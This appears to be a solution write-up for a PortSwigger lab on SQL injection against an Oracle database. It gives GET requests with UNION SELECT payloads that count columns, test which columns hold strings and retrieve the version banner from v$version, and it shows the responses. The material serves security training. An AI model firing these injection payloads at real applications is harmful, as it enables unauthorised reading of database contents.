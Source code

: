 

# ***5. SQL injection attack, querying the database type and version on Oracle***
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

To solve the lab, Make the database retrieve the strings: 

*'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'*

Hint:On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

For more information, see our SQL injection cheat sheet.

1. determine how many coloumns are in the current table:
> GET /filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual-- HTTP/1.1
response:
> HTTP/1.1 200 OK

2. determine how many of them support stroing values:
**request3**
> GET /filter?category=Pets'+UNION+SELECT+'test',+'test'+FROM+dual-- HTTP/1.1
response:
> HTTP/1.1 200 OK

both fields support strings

3. exfiltrate version:
2 options to retrive the information from Oracle systems:
> SELECT banner FROM v$version
> SELECT version FROM v$instance

**request1**
GET /filter?category=Pets'+UNION+SELECT+banner,+NULL+FROM+v$version-- HTTP/1.1
```htm
HTTP/1.1 200 OK
    <th>NLSRTL Version 11.2.0.2.0 - Production</th>
</tr>
<tr>
    <th>Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production</th>
</tr>
<tr>
    <th>PL/SQL Release 11.2.0.2.0 - Production</th>
```
# Lab Solved

